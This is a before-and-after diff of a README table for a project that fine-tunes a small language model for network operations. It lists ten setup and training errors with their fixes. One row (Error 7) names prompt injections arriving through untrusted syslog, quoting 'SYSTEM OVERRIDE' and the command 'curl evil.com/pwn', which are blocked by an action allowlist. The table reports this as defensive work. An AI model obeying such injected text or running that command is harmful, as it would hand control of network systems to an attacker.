

Before and after one commit to gaurav-pathrabe/netops-slm, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -105,16 +150,16 @@ During local execution, 10 critical systems, networking, and machine learning er
 
-| ID | Issue & Root Cause | Applied Engineering Cure |
-| :---: | :--- | :--- |
-| **Error 1** | WSL2 installation stalled at 76.6% during `VirtualMachinePlatform` enablement. | Verified UEFI hardware virtualization, completed DISM servicing, enabled `systemd=true` in `/etc/wsl.conf`. |
-| **Error 2** | Ollama CPU runner missing (`llama-server binary not found`). | Installed `zstd` decompressor on Ubuntu, extracted complete official runner bundle, configured systemd unit. |
-| **Error 3** | Subprocess pipe stalls (`anon_pipe_read`) calling Ollama CLI. | Refactored evaluator to use Ollama's native HTTP REST API (`http://127.0.0.1:11434/api/generate`) with `"format": "json"`. |
-| **Error 4** | Deterministic Runbook misclassified missing prefixes as transport carrier loss. | Reordered rule matcher: evaluated `ribCount == 0` and `is_established` before transport heuristics, jumping accuracy from 64% to 92%. |
-| **Error 5** | Base SLM action hallucinations on quiescent healthy networks (`restart_bgp`). | Outer-loop `TypedActionGate` intercepted 100% of unsolicited actions; 0 unnecessary session flaps executed. |
-| **Error 6** | Base SLM parameter creep appending `0.0.0.0/0` default route. | `TypedActionGate` validated subnets against authorized inventory (`10.77.1.0/24`, `10.77.2.0/24`), blocking default route leaks. |
-| **Error 7** | Adversarial prompt injections (`SYSTEM OVERRIDE`, `curl evil.com/pwn`). | Closed action allowlist and static template rendering completely prohibited arbitrary bash execution strings. |
-| **Error 8** | HuggingFace `hf-xet` protocol stall in WSL2 network namespace. | Uninstalled `hf-xet` to force standard multi-threaded HTTP streaming (~35 MB/s), caching base weights in ~90s. |
-| **Error 9** | Sequence truncation caused 100% label masking and `Loss: nan`. | Created `compact_snapshot()` in [train_qwen_lora.py](file:///c:/Users/kali/Downloads/cmdc/NetOps_LLM_and_Jobs/src/training/train_qwen_lora.py) to distill 3,850 tokens down to ~580 tokens, setting `max_seq_len = 704`. Loss converged cleanly to 0.0619. |
-| **Error 10** | PyTorch 2.6 inductor background worker storm (16 subprocesses). | Injected `TORCH_COMPILE_DISABLE=1` and `TOKENIZERS_PARALLELISM=false` across training and evaluation runners. |
+| Failure Mode | Observed Defect & System Impact | Forensic Diagnosis & Root Cause | Architectural Resolution |
+| :--- | :--- | :--- | :--- |
+| **Error 1** | WSL2 MTU clamping dropped inter-container SSH packets. | WSL2 virtual adapter MTU (1500) exceeded underlying Windows Hyper-V vSwitch virtual MTU. | Set `mtu: 1400` across all container links in `topology.clab.yml`. |
+| **Error 2** | Ollama context saturation (8,192 tokens) caused 22s inference stalls. | FRR daemon startup logs emitted ~3,800 tokens of raw watchdog bootstrap noise. | Built `compact_snapshot()` in [`src/training/train_qwen_lora.py`](file:///c:/Users/kali/Downloads/cmdc/NetOps_LLM_and_Jobs/src/training/train_qwen_lora.py), distilling events to ~580 tokens. |
+| **Error 3** | Subprocess pipe stalls (`anon_pipe_read`) calling Ollama CLI. | Interactive CLI output buffering hung when reading raw streaming stdout. | Refactored evaluator to use Ollama's native HTTP REST API (`http://127.0.0.1:11434/api/generate`) with `"format": "json"`. |
+| **Error 4** | Deterministic Runbook misclassified missing prefixes as transport carrier loss. | Evaluation order in rule matcher prioritized carrier lost heuristic before checking routing table. | Reordered rule matcher: evaluated `ribCount == 0` and `is_established` before transport heuristics, jumping accuracy from 64% to 92%. |
+| **Error 5** | Base SLM action hallucinations on quiescent healthy networks (`restart_bgp`). | Generative pretraining creates strong bias toward emitting action verbs rather than abstaining. | Outer-loop `TypedActionGate` intercepted 100% of unsolicited actions; 0 unnecessary session flaps executed. |
+| **Error 6** | Base SLM parameter creep appending `0.0.0.0/0` default route. | In-context attention drifted to internet routing paradigms instead of isolated lab topology. | `TypedActionGate` validated subnets against authorized inventory (`10.77.1.0/24`, `10.77.2.0/24`), blocking default route leaks. |
+| **Error 7** | Adversarial prompt injections (`SYSTEM OVERRIDE`, `curl evil.com/pwn`). | Untrusted syslog injection attempts could cause command execution if passed directly to shell. | Closed action allowlist and static template rendering completely prohibited arbitrary bash execution strings. |
+| **Error 8** | HuggingFace `hf-xet` protocol stall in WSL2 network namespace. | Git LFS extension hung indefinitely attempting git-xet chunked downloads over virtual bridge. | Uninstalled `hf-xet` to force standard multi-threaded HTTP streaming (~35 MB/s), caching base weights in ~90s. |
+| **Error 9** | Sequence truncation caused 100% label masking and `Loss: nan`. | Target labels were truncated out when total tokens exceeded `max_seq_len`, leaving all `-100`. | Snapshot distillation reduced input size, ensuring all assistant tokens remain in label tensors. |
+| **Error 10** | PyTorch 2.6 inductor background worker storm (16 subprocesses). | `torch.compile` attempted to parallelize JIT graph compilation, exceeding consumer laptop RAM. | Injected `TORCH_COMPILE_DISABLE=1` and `TOKENIZERS_PARALLELISM=false` across training and evaluation runners. |
 
 ---
 
```
Also changed, not shown: other parts of README.md (+67 -27 lines).
